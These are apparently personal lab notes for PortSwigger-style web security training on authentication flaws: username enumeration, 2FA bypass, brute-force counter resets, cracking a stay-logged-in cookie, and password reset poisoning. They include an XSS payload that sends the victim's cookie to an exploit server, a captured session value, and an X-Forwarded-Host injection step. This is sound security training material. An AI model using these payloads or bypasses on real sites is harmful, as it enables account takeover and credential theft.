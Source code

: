 ____

# Username enumeration via different responses

![[Pasted image 20240819055145.png]]

# 2FA simple bypass

```
Just try to access the next endpoint directly 

/my-account?id=carlos
```

# Password reset broken logic

```
Change username in POST request after password-reset link
```

![[Pasted image 20240819060645.png]]

# Username enumeration via subtly different responses

Grep extract

![[Pasted image 20240819074802.png]]

# Username enumeration via response timing

![[Pasted image 20240820125651.png]]

![[Pasted image 20240820125617.png]]

# Broken brute-force protection, IP block

You can reset the counter for the number of failed login attempts by logging in to your own account before this limit is reached. For example create a combined list with your valid credentials and with victim's creds

```
wiener - peter
carlos - kek
carlos - kek2
wiener - peter
carlos - kek3 etc...
```

![[Pasted image 20240821042000.png]]

# Username enumeration via account lock

It blocks only existing accounts, so try to brute the same list of passwords until one of accounts from the list is not blocked.
To brute password use grep with errors to find a request without error

![[Pasted image 20240821043248.png]]

![[Pasted image 20240821043325.png]]

# 2FA broken logic

```
Observe there is verify=wiener in cookie while sending 2FA code
Change it to our victim's nickname and simply brute 2FA code
```


# Brute-forcing a stay-logged-in cookie

Decoded Stay logged in from base64

wiener:51dc30ddc473d43a6011e9ebba6ca770

51dc30ddc473d43a6011e9ebba6ca770 --> md5 --> peter

![[Pasted image 20240829123137.png]]

# Offline password cracking

XSS
```html
<script>document.location='//exploit-0ae1001a041d54ab8236324601b70073/'+document.cookie</script>
```

/secret=T88cI38wn5zNcV3RIgyxp6qZayCMm1FG;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz

# Password reset poisoning via middleware

```
While processing forgot password set new header:
X-Forwarded-Host: exploit-server 
It will process Host Header Injection
```

/forgot-password?temp-forgot-password-token=qsh1gvoveepzfygxccgv5rzdelnn4tl2

